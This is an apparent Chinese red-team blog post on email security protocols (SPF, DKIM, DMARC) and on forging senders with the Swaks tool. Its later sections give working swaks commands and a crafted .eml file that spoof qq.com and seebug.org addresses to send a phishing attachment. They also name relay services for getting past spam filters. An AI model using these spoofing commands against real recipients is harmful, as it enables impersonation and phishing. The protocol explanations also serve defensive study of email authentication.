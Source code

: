 ```yaml
---
layout: post
title:  "红队邮差-邮件安全协议和Swaks伪造邮件"
date: 2023-07-08
categories: 邮件钓鱼
---
```




# 文前漫谈

打不进去，研究研究钓鱼，21年的DataCon有这个内容，按照paper来的

[DataCon2021优秀解题思路分享-邮件发件人伪造（武汉大学 10TG） – DataCon社区 (qianxin.com)](https://datacon.qianxin.com/blog/archives/277)

钓鱼邮件还是关注两部分的内容，发件人伪造和如何不进垃圾箱。

# 0x01 前言

邮件发件协议主要是SMTP(Simple Mail Transfer Protocol)，但是SMTP协议设计之初并没有考虑到太多安全相关的功能，因此导致邮件发件人伪造的攻击层出不穷。

一个典型的邮件从发送方编写到接收方看到邮件内容的过程如下图所示

邮件发送流程图

<img src="/img/image-20211027142825953-1689046605295-4.png" alt="邮件发送流程图" style="zoom:80%;" />

- 发送方通过SMTP协议发给发送方的MTA(Mail Transmission Agent)
- 发送方的MTA通过SMTP协议发给接收方的MTA
- 最终接收方使用POP3(Post Office Protocol)或IMAP(Internet Message Access Protocol)协议接收邮件



需要注意的是，SMTP协议只能发送邮件，不接受邮件，邮件的接收需要POP3或IMAP来完成

在这个过程中传输的邮件有很多个字段都是用来指定发送方身份的

- MailFrom `SMTP.From`, 这个字段可以理解为信封上指定的发件人
- From `Message.From`, 展示给用户看到的信息上的发件人
- Sender, 一般在代发邮件中用来标识代发邮件的来源

这些多种的字段就导致实际邮件服务解析时不同邮件客户端可能对显示的内容处理方案不同，从而就导致了发件人伪造的攻击。



# 0x02 邮件安全协议

由于SMTP设计时并没有考虑相关的安全机制，并没有确定邮件来源、邮件内容的可信，为了保证其安全性陆续推出了SPF、DKIM、DMARC等安全协议。

## SPF 域名验证协议

SPF，Sender Policy Framework（发件人策略框架），主要作用是防止伪造邮件地址

SPF记录的本质，是向收件人宣告：本域名的邮件从清单上所列IP发出的都是合法邮件。当在DNS中定义了域名的SPF记录后，为了确认邮件声称发件人不是伪造的，邮件接收方首先检查邮件域名的SPF记录，来确定发件人的IP地址是否被包含在SPF记录中，若包含，则认为是一封正确的邮件，返回 PASS，否则认为是一封伪造的邮件并退回，或将其标记为垃圾/仿冒邮件，返回 FAIL。





```
"v=spf1 -all" （拒绝所有，表示这个域名不会发出邮件）
"v=spf1 +all" （接受所有）
"v=spf1 ip4:192.168.0.1/16 -all"（只允许 192.168.0.1/16 范围内的IP发送邮件）
"v=spf1 mx -all"（允许当前域名的 mx 记录对应的IP地址发送邮件）
"v=spf1 mx mx:test.example.com -all"（允许当前域名和 test.example.com 的 mx 记录对应的IP地址发送邮件）
"v=spf1 a mx ip4:173.194.72.103 -all"（允许当前域名的 a 记录和 mx 记录和一个给定的IP地址发送邮件）
"v=spf1 include:example.com -all"（采用和 example.com 一样的SPF记录）
```

以qq.com为例

<img src="/img/image-20230711210048805.png" alt="image-20230711210048805"  />



## DKIM 邮件防篡改协议

<img src="/img/image-20211114120702953.png" alt="image-20211114120702953" style="zoom:50%;" />



DKIM是利用到密码学的签名协议，发件方首先需要在DNS记录上增加自己的公钥，发件时使用自己的私钥对邮件的内容进行签名，并将签名的结果写在邮件内容中，当收件人收到信件时向DNS请求公钥对信件内容进行校验。

DKIM中几个比较重要的字段有：

- d 表示实际校验的域名
- h 表示签名内容的涵盖范围
- l 是可选参数，表示body的长度

其中l这个参数最初的目的是用于一些商业邮件底部的Unsubscribe相关按钮

指定了l参数的邮件有可能被伪造body







## DMARC 身份验证协议



<img src="/img/image-20211114124939276.png" alt="image-20211114124939276" style="zoom:50%;" />





由于SPF协议只能保证发件人的IP是否是域名允许的IP，DKIM只能保证邮件的内容没有经过篡改，两者都没有保护最终收件人看到的From字段是否是一个正确且真实的，因此增加了DMARC协议。

DMARC协议会根据SPF、DKIM两者验证的返回结果，以及对From字段做的**一致性检查**，最终给出一个结论，判断这封邮件是应当拒收还是接收。

# 邮件伪造工具 Swaks

Swaks 命令行邮件伪造工具

```
–to test@gmail.com //接件人邮箱；
–from test@qq.com //发件人邮箱；
–ehlo qq.com //伪造邮件ehlo头，即是发件人邮箱的域名。提供身份认证；
–server mail.smtp2go.com //服务邮件域
–body “test” //引号中的内容即为邮件正文，可直接引用文件；
–data ./Desktop/email.txt //将正常源邮件的内容保存成TXT文件，再作为正常邮件发送；
–header “Subject:标题” //邮件标题;
–header-X-Mailer gmail.com //X-Mailer标头表示用于起草和发送原始电子邮件的程序
–h-From: 'boss admin@gmail.com' //伪造的发件人邮箱；
–attach /root/test.txt //附件，必须是绝对路径
```

# SPF 绕过

首先判断是否邮箱地址是否配置了SPF，将结合和上面的描述对照

* dig -t txt qq.com  //linux 
* nslookup -type=txt qq.com //windows

## 不存在SPF

指定From字段伪造发件人，不存在SPF时伪造较为简单，但是这里仅仅时网易邮箱客户端的，并没有放入垃圾箱。qq邮箱客户端等会直接放入垃圾箱

```
swaks -to p001water@163.com -from root@seebug.org \
--header-X-Mailer SMTP  --ehlo seebug.org --body '这是钓鱼内容' \	
--attach /app/email/fish.docx --header "Subject:这是一封钓鱼邮件"
```

<img src="/img/3.jpg" alt="3" style="zoom:67%;" />





## 存在SPF

### Message Body绕过

以qq.com为例，把From字段写在body里

```
swaks --to p001water@163.com --data /app/email/level.eml
```

```
From: admin@qq.com
Subject:这是一封钓鱼邮件
X-Mailer: SMTP
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_7617"
X-CM-TRANSID:_____wBXGAQvQK5knv03AA--.3326S2
Authentication-Results: zwqz-mx-mta-g0-0; spf=none smtp.mail=root@seeb
	ug.org;
X-Coremail-Antispam: 1Uf129KBjDUn29KB7ZKAUJUUUUU529EdanIXcx71UUUUU7v73
	VFW2AGmfu7bjvjm3AaLaJ3UbIYCTnIWIevJa73UjIFyTuYvjxUIdcTDUUUU

------=_MIME_BOUNDARY_000_7617
Content-Type: text/plain

这是钓鱼内容
------=_MIME_BOUNDARY_000_7617
Content-Type: application/octet-stream; name="fish.docx"
Content-Description: fish.docx
Content-Disposition: attachment; filename="fish.docx"
Content-Transfer-Encoding: BASE64

dGVzdAo=

------=_MIME_BOUNDARY_000_7617--
```

缺点就是会显示代发提醒

<img src="/img/image-20230712163022999.png" alt="image-20230712163022999" style="zoom:80%;" />





### 邮件代发

找有信誉的SMTP服务器转发邮件增加可信度，避免邮件直接扔进垃圾箱。缺点就是会有代发记录，现在的思路就是利用邮件客户端的UI Rendering绕过

常用的代发平台

```
https://www.sendcloud.net/ //注册简单，推荐
https://www.smtp2go.com/ //注册难
```

说实话，也挺麻烦





# 如何不进垃圾箱



比较中肯的方法还是选择邮件代发平台代发，是否被放入垃圾箱也看对方邮件客户端的安全规则。如果是网易的客户端，直接发也不会被放入垃圾箱

客户端规则较严直接就进垃圾箱了。或者自己配置邮件服务器，SPF，DKIM，DMARC都通过验证。否则还是只进垃圾箱。

没找到什么好的方法，没突破。暂完











